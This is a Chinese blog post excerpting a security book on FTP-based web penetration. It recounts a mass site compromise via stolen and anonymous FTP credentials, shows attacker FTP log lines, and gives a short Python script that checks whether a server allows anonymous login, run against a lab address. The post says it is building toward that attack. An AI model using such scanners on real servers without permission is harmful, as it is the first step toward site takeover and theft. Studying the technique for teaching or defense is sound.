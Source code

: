 ```yaml
---
title: "使用Python通过FTP进行Web渗透"
date: 2017-10-03 09:48:06 +0800
category: 学习笔记
---
```


> 节选自《python绝技：运用python成为顶级黑客》一书

在最近的一次巨大的损害中，被称为 k985ytv 的攻击者，使用匿名和盗用的FTP 凭证，获得了 22400 个域名和 536000 被感染的页面。利用授权访问，攻击者注入 Javascript 代码，使好的首页重定向到乌克兰境内的恶意页面。一旦受感染的服务器被重定向到恶意的网站，恶意的主机将会在受害者电脑中安装假冒的防病毒软件，并窃取受害者的信用卡信息。K985ytv 的攻击取得了巨大的成功。在下面的章节中，我们将用 Python 来建立这种攻击。

检查受感染服务器的 FTP 日志，我们看看到底发什么什么事。一个自动的脚本连接到目标主机以确认它是否包含一个名为 index.htm 的默认主页。接下来攻击者上传了一个新的 index.htm 页面，可能包含恶意的重定向脚本。受感染的服务器渗透利用任何访问它页面的脆弱客户机。

```
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "LIST / folderthis/folderthat/" 226 1862
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I" 200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV" 227 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "SIZE index.htm" 213 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "RETR index.htm" 226 2573
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I" 200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV" 227 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "STORindex.htm" 226 3018
```

为了更好的理解这种攻击的初始向量。我们简单的来谈一谈 FTP 的特点。文件传输协议 FTP 服务用户在一个基于TCP 网络的主机之间传输文件。通常情况下，用户通过用户名和密码来验证 FTP 服务。然而，一些网站提供匿名认证的能力，在这种情况下，用户提供用户名为“anonymous”，用电子邮件来代替密码。

就安全而言，网站提供匿名的FTP服务器访问功能似乎很愚蠢。然而，令人惊讶的是许多网站提供这类FTP的访问如升级软件，这使得更多的软件获取软件的合法更新。我们可以利用Python的 ftplib 模块来构建一个小脚本，用来确认服务器是否允许匿名登录。函数 `anonLogin()` 接受一个主机名反汇编一个布尔值来确认主机是否允许匿名登录。为了确认这个布尔值，这个函数尝试用匿名认证生成一个FTP连接，如果成功，则返回 "True"，产生异常则返回 "False"。

```py
# coding=UTF-8
import ftplib
def anonLogin(hostname):
 try:
 ftp = ftplib.FTP(hostname)
 ftp.login('anonymous', 'me@your.com')
 print('\n[*] ' + str(hostname) + ' FTP Anonymous Logon Succeeded!')
 ftp.quit()
 return True
 except Exception as e:
 print('\n[-] ' + str(hostname) + ' FTP Anonymous Logon Failed!')
 return False
host = '192.168.95.179'
anonLogin(host)
```

运行这个脚本，我们可以看到脆弱的目标可以匿名登陆。

```py
attacker# python anonLogin.py
[*] 192.168.95.179 FTP Anonymous Logon Succeeded
```
